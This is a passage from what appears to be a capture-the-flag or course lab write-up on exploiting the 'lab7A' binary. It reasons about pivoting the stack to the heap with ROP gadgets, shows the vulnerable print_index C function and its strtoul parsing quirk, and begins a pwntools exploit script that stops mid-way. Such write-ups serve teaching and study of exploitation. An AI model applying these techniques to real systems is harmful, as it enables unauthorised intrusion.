 ```
Interesting, ```edx``` contains some heap address - in fact, this is ```messages[i]``` address. It would be awesome if the binary contains a ROP gadget that allows to assign the ```edx``` register value to a stack pointer in order to pivot to a heap where the main payload can be easily written. It may be ```mov esp, edx ; ret``` or ```push edx ; pop esp ; ret``` or ```pop whatever ; pop esp ; ret``` gadgets. Unfortunately, the are no such gadgets in the binary :( It looks pretty obvious that somehow I need to pivot into a heap anyway, because this is the only memory area where I can freely write a lot of arbitrary data. Let's take a look at ```print_index``` function again:

```
int print_index()
{
    char numbuf[32];
    unsigned int i = 0;

    /* get message index to print */
    printf("-Input message index to print: ");
    fgets(numbuf, sizeof(numbuf), stdin);
    i = strtoul(numbuf, NULL, 10);

    if(i >= MAX_MSG || messages[i] == NULL)
    {
        printf("-Invalid message index!\n");
        return 1;
    }

    /* print the message of interest */
    messages[i]->print_msg(messages[i]);

    return 0;
}
```

There is a ```numbuf``` 32-bytes buffer, but it seems to take a valid index and return if the index is greater or equal to ```MAX_MSG```. Let's take a look at the manpage of ```strtoul```:

![strtoul](https://user-images.githubusercontent.com/45107680/95120915-f261a700-0756-11eb-893e-abf191b2ab99.png)

Hmm, interesting... It seems that I can provide a valid index and then pad the remaining buffer with arbitrary values. Let's alter the script and check it out:

```
from pwn import *

io = process("./lab7A")
gdb.attach(io, '''
b *print_index + 158
c
''')

def allocate_chunk(payload, len):
    io.recvuntil(b'Choice: ')
    io.sendline(b'1')
    io.recvuntil(b'length: ')
    io.sendline(str(len).encode()) 
    io.recvuntil(b'encrypt: ')
    io.sendline(payload) 

